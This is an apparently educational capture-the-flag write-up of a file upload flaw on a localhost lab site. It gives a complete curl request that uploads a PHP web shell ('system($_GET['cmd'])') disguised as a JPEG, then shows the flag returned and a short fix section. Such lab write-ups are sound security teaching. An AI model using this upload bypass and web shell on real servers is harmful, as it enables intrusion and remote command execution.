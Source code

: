 # Breach Name: File Upload Vulnerability Exploiting Content-Type Manipulation
## Description of the Breach

This breach was identified on the file upload page of the website, where a vulnerability allows unauthorized file types, such as PHP scripts, to be uploaded by manipulating the Content-Type header in the request. By exploiting this vulnerability, we were able to upload a PHP shell script and retrieve the flag.

## Steps to Reproduce

1. Navigate to the File Upload Page:

	Start from the homepage and go to the file upload page:

	```bash
	http://localhost:8080/index.php?page=upload
	```

2. Inspect the Network Request:

	Open the browser's developer tools and go to the "Network" tab. Upload a file (e.g., an image) using the upload form, and observe the POST request that is made to upload the file.

3. Copy the Network Request as cURL:

	Right-click on the network request and select "Copy as cURL". This gives you a cURL command that can be modified for further exploitation.

4. Modify the Content-Type and Payload:

	Modify the copied cURL command to change the Content-Type header to `multipart/form-data` and adjust the payload to include a PHP script as the file content. The modified cURL command is as follows:

	```bash
	curl 'http://localhost:8080/index.php?page=upload' \
	-H 'Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8' \
	-H 'Accept-Language: en-US,en' \
	-H 'Cache-Control: max-age=0' \
	-H 'Connection: keep-alive' \
	-H 'Content-Type: multipart/form-data; boundary=----WebKitFormBoundary9k7Q1MsUM92jf0F4' \
	-H 'Cookie: csrftoken=6la8Whx71kgYwiu1HUqby8bGHiSkJf2j9rlT80LuniGLvkJzAtbJNOx4EK5rXVKe; sessionid=wkyan96hdzkvna3h6vfkck2lbsci7d30; I_am_admin=68934a3e9455fa72420237eb05902327' \
	-H 'Origin: http://localhost:8080' \
	-H 'Referer: http://localhost:8080/index.php?page=upload' \
	-H 'Sec-Fetch-Dest: document' \
	-H 'Sec-Fetch-Mode: navigate' \
	-H 'Sec-Fetch-Site: same-origin' \
	-H 'Sec-Fetch-User: ?1' \
	-H 'Sec-GPC: 1' \
	-H 'Upgrade-Insecure-Requests: 1' \
	-H 'User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/126.0.0.0 Safari/537.36' \
	-H 'sec-ch-ua: "Not/A)Brand";v="8", "Chromium";v="126", "Brave";v="126"' \
	-H 'sec-ch-ua-mobile: ?0' \
	-H 'sec-ch-ua-platform: "Linux"' \
	--data-raw $'------WebKitFormBoundary9k7Q1MsUM92jf0F4\r\nContent-Disposition: form-data; name="MAX_FILE_SIZE"\r\n\r\n100000\r\n------WebKitFormBoundary9k7Q1MsUM92jf0F4\r\nContent-Disposition: form-data; name="uploaded"; filename="shell.php"\r\nContent-Type: image/jpeg\r\n\r\n<?php system($_GET[\'cmd\']); ?>\r\n------WebKitFormBoundary9k7Q1MsUM92jf0F4\r\nContent-Disposition: form-data; name="Upload"\r\n\r\nUpload\r\n------WebKitFormBoundary9k7Q1MsUM92jf0F4--\r\n'
	```

	Explanation: The script above modifies the file upload to pretend that a PHP script (`shell.php`) is an image file by setting the Content-Type to `image/jpeg`. The PHP script contains:

	```php
	<?php system($_GET['cmd']); ?>
	```

5. Execute the cURL Command:

	Run the modified cURL command in your terminal. This command uploads the `shell.php` script to the server.

6. Retrieve the Flag:

	After successfully uploading the script, the server response contains the following message, indicating that the file was uploaded and the flag was revealed:

	```php
	<pre><center><h2 style="margin-top:50px;">The flag is : 46910d9ce35b385885a9f7e2b336249d622f29b267a1771fbacf52133beddba8</h2><br/><img src="images/win.png" alt="" width=200px height=200px></center> </pre><pre>/tmp/shell.php successfully uploaded.</pre>
	```

	Flag: `46910d9ce35b385885a9f7e2b336249d622f29b267a1771fbacf52133beddba8`

## Explanation of the Breach

The vulnerability here is a File Upload Vulnerability that allows unauthorized files to be uploaded by manipulating the Content-Type header. The server fails to properly validate the file type and content, allowing us to upload and execute a PHP script, which could lead to remote code execution (RCE).

## How to Fix the Breach

- Sanitize Uploaded File Names:

  Ensure that uploaded file names are sanitized to prevent directory traversal or overwriting important files on the server.


